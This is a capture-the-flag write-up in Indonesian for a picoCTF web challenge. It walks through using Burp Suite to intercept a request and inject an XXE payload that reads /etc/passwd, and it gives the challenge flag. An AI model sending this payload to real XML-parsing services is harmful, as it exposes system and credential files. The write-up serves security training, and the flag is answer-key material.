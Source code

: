 # Inspect HTML
- Link: https://play.picoctf.org/practice/challenge/376?category=1&page=2

## Tantangan
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Penyelesaian
- Tekan tombol **Launch Instance** untuk memulai tantangan

- Buka URL http://saturn.picoctf.net:59995/ di browser

- Jalankan tool `Burp Suite`

- Tekan tombol **Details** di menu picoCTF

- Buka Burp Suite dan cari request yang mengarah ke path URL **/data**

- Klik kanan request tersebut lalu pilih **Send to Repeater**

- Pindah ke tab Repeater

- Tambahkan script XXE Injection berikut dibagian request
```sh
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]><data>
		<ID>
			&xxe;2
		</ID>
	</data>
```

- Jika sudah tekan tombol **Send**


- Flag
```sh
picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}
```
